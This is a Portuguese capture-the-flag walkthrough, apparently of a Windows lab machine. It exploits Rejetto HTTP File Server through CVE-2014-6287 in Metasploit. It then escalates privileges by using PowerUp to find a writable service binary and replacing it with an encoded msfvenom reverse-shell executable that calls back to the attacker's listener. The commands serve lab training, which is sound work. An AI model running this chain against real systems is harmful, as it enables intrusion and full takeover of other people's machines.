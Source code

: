 Encontramos uma vulnerabilidade conhecida no Rejetto HTTP File Server. Para explora-la usamos o metasploit:
1. ``msfconsole``
2. ``search cve:2014-6287``
3. ``use 0``
4. setamos o RHOSTS, o RPORT e o LHOST
5. ``exploit``
6. ``search -f user.txt``
7. ``cat user.txt``


## Escalação de privilégio em ambiente windows

upload desse script na máquina alvo: [raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

partimos para uma powershell a partir do meterpreter usando:
1. ``load powershell``
2. ``powershell_shell``

Executamos o script enumerador:
1. ``PS > .\PowerUp.ps1``
2. ``PS > Invoke-AllChecks``

Encontramos isso dentre as coisas enumeradas:
```
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

A opção **CanRestart** estando como **true** permite que reiniciemos um serviço no sistema. Além disso, o diretório da aplicação também tem permissão de escrita. Isso significa que podemos substituir a aplicação legítima pela nossa versão maliciosa, reiniciar o serviço e, assim, executar nosso programa infectado

Usando o msfvenom podemos gerar um payload de reverse shell para windows
``msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe``

navegamos ate a pasta que contém o ASCService.exe. Ao tentar dar upload na nossa versão o meterpreter diz que o arquivo está sendo usado por outro processo.

Para parar o serviço podemos usar ``sc stop ASCService.exe`` dentro do powershell. Depois voltamos para o meterpreter com ``Ctrl + Z`` e fazemos upload do arquivo.

primeiro temos que parar o serviço que está rodando para conseguirmos substituir o arquivo, para isso usamos:
``net stop AdvancedSystemCareService9``

substituímosmos o arquivo
``copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"``

não podemos esquecer de colocar um listenner para nossa reverse_shell
``nc -nlvp 4443``

depois é só reiniciar o serviço com:
``net start AdvancedSystemCareService9``

Pelo acesso de root basta navegar ate o desktop do usuário administrador. Lembrando que para listar pastas no cmd usamos ``dir`` e o equivalente ao ``cat`` é ``type``


